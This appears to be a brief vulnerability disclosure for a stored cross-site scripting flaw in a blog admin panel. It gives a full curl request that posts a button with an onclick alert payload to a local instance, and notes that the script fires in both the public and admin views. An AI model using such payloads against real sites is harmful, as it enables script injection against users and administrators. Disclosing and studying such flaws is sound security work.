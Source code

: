 # name 
Blog Stored xss

# path
blog add edit
http://127.0.0.1:9999/admin/index
befor login

# xss Payload

```
curl 'http://127.0.0.1:9999/admin/content/C' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: PHPSESSID=bc4ad1f19e8790aeb682f3614a9229ad' \
  -H 'Origin: http://127.0.0.1:9999' \
  -H 'Referer: http://127.0.0.1:9999/admin/form/addpage' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36' \
  -H 'X-Requested-With: com.asiainfo.app' \
  -H 'sec-ch-ua: "Chromium";v="127", "Not)A;Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  --data-raw 'title=Test&content=Test%0A%0A%3Cbutton+onclick%3Dalert(333)%3E%0A111%0A%3C%2Fbutton%3E%0A%0A%60%60%60%0A%3Cbutton+onclick%3Dalert(333)%3E%0A111%0A%3C%2Fbutton%3E%0A%60%60%60&permid=666&uid=f473b258-96be-4dcc-83ec-82b3e610c672&cid='
```

# Effect
Public Blog View
[![](./img/2.png)](./img/2.png)
alert
[![](./img/5.png)](./img/5.png)
[![](./img/6.png)](./img/6.png)

admin view 
[![](./img/3.png)](./img/3.png)
alert
[![](./img/4.png)](./img/4.png)






